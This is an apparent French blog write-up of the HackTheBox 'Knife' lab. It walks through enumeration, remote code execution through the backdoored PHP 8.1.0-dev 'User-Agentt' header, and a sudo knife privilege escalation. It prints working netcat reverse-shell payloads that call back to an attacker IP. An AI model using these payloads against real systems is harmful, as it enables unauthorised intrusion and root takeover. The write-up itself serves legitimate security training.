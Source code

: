 ```yaml
---
title: HTB | Knife
description: Knife is an easy difficulty Linux machine that features an application which is running on a backdoored version of PHP. This vulnerability is leveraged to obtain the foothold on the server. A sudo misconfiguration is then exploited to gain a root shell. 
slug: knife-htb
date: 2025-03-06 00:00:00+0000
cover:
  image: cover.png
  hidden: true     # cache la bannière
categories:
    - HackTheBox
tags:
    - Linux
    - Easy
weight: 1       ## You can add weight to some posts to override the default sorting (date descending)
---
```

<!-- 
<img src="cover.png" alt="Knife cover" class="logo-htb">

| Machine name   | OS         | IP           | Difficulty |
| :-----------:  | :--------: | :----------: | :--------: |
| Knife          | Linux      | 10.10.10.242 | Easy       |
 -->

<table style="border:none; width:100%;">
  <tr>
    <!-- Colonne gauche : logo -->
    <td style="border:none; text-align:center; vertical-align:middle; width:150px;">
      <img src="cover.png" alt="Knife cover" width="120">
    </td>
    <td style="border:none; text-align:center; vertical-align:middle;">
      <table style="margin:auto; border-collapse:collapse; border:1px solid #ddd;">
        <thead>
          <tr>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">Machine name</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">OS</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">IP</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">Difficulty</th>
          </tr>
        </thead>
        <tbody>
          <tr>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Knife</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Linux</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">10.10.10.242</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Easy</td>
          </tr>
        </tbody>
      </table>
    </td>
  </tr>
</table>

## Enumeration

### nmap
```bash
$ nmap -sC -sV -An -T4 -vvv 10.10.10.242

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EA...
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2....
|   256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1l....
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Foothold

### PHP 8.1.0-dev (RCE)
Avec burp, on observe que le serveur utilise la version 8.1.0-dev de php. Avec **searchsploit**, on voit qu'il existe une RCE sur cette version de php : 
```bash
┌──(kali㉿kali)-[~]
└─$ searchsploit 8.1.0-dev 

PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution                                                                                                 | php/webapps/49933.py
```

### Exploit from searchsploit
On peut utiliser un script python pour exploiter la vuln:
```bash
┌──(kali㉿kali)-[~/htb/Knife]
└─$ python3 49933.py   
Enter the full host url:
http://knife.htb

Interactive shell is opened on http://knife.htb 
Can't acces tty; job crontol turned off.
$ whoami
james
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.16.6 1337 >/tmp/f

------------------------------------

┌──(kali㉿kali)-[~]
└─$ nc -lnvp 1337              
listening on [any] 1337 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.242] 60424
bash: cannot set terminal process group (1025): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ whoami
whoami
james
```

### Exploit from Burp
La vulnérabilité consiste à ajouter une variable "User-Agentt", avec 2 "t", et d'écrire la commande a executé dans la fonction "zerodiumsystem('COMMANDE_ICI')" :
```bash
## FROM BURP :

GET / HTTP/1.1
Host: knife.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
User-Agentt: zerodiumsystem('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.16.6 1337 >/tmp/f');
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1

---------------------------------

┌──(kali㉿kali)-[~/htb/Knife]
└─$ nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.242] 60498
bash: cannot set terminal process group (1025): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ python3 -c "import pty;pty.spawn('/bin/bash')"
python3 -c "import pty;pty.spawn('/bin/bash')"
james@knife:/$ export TERM=xterm
export TERM=xterm
james@knife:/$ ^Z
zsh: suspended  nc -lnvp 1337
                                        
┌──(kali㉿kali)-[~/htb/Knife]
└─$ stty raw -echo; fg
[1]  + continued  nc -lnvp 1337

james@knife:/$ whoami
james
james@knife:/$ cd
james@knife:~$ cat user.txt 
4819.....4e49f
```

## Privilege Escalation

### Knife Binary exploit
Avec **sudo -l**, on observe que l'on peut executer le binaire knife en tant que root. Sur `gtfobins`, on trouve rapidement une exploit pour faire une élévation de privilège avec ce binaire.  

Voici le lien exacte de la page :
https://gtfobins.github.io/gtfobins/knife/

```bash
james@knife:/home$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
james@knife:/home$ sudo knife exec -E 'exec "/bin/sh"'
## whoami
root
## cd /root
## cat root.txt
3db8b.....ce60
```